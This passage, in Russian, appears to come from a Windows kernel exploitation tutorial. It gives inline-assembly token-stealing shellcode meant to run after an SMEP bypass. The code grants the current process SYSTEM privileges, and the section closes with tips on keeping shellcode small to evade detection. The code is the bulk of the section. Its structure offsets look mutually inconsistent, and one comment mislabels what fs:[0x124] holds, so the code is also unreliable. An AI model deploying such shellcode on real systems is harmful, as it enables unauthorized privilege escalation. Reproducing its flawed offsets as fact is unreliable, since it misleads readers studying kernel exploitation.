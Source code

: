 ## 9. Инжекция шеллкода и выполнение полезной нагрузки

После того как защита SMEP успешно обойдена, становится возможным безопасно выполнить произвольный код, размещённый в пользовательской памяти, в контексте ядра. На этом этапе основная задача — внедрить и запустить шеллкод, который реализует полезную нагрузку, например, эскалацию привилегий.

### Простейший пример шеллкода: захват токена SYSTEM

```c
void TokenStealingShellcode() {
    __asm {
        pushad;                   // Сохраняем все регистры на стеке

        mov eax, fs:[0x124];       // Получаем текущий KPCR (Kernel Processor Control Region)
        mov eax, [eax + 0x50];     // Переходим к структуре EPROCESS текущего процесса

    find_system:
        mov ecx, [eax + 0xb8];     // Переходим к следующему элементу в списке процессов
        sub ecx, 0xb8;             // Корректируем смещение до начала EPROCESS
        mov eax, ecx;
        cmp [eax + 0x174], 4;      // Сравниваем PID процесса с 4 (PID процесса SYSTEM)
        jne find_system;           // Если не найден — продолжаем искать

        mov edx, [eax + 0x208];    // Сохраняем токен процесса SYSTEM
        mov eax, fs:[0x124];       
        mov eax, [eax + 0x50];     // Снова получаем EPROCESS текущего процесса
        mov [eax + 0x208], edx;    // Перезаписываем токен нашего процесса токеном SYSTEM

        popad;                    // Восстанавливаем сохранённые регистры
        ret;                      // Возвращаемся к нормальному исполнению
    }
}
```

### Что делает этот шеллкод

- **Ищет процесс SYSTEM**: проходит по списку всех процессов в системе (ActiveProcessLinks) до тех пор, пока не найдёт процесс с идентификатором PID = 4, что соответствует процессу SYSTEM.  
- **Копирует токен безопасности**: считывает токен процесса SYSTEM и записывает его в поле Token структуры EPROCESS текущего процесса. После этого текущий процесс наследует все привилегии SYSTEM-процесса.

### Важные детали при написании шеллкода

- Минимизация размера: шеллкод должен быть как можно короче, чтобы уменьшить вероятность обнаружения.  
- Избежание абсолютных адресов: следует использовать относительные обращения или структурные переходы (через fs:[0x124]), чтобы код работал на разных версиях Windows.  
- Защита от краха: важно аккуратно сохранять и восстанавливать регистры (pushad/popad), чтобы минимально воздействовать на окружение процесса.
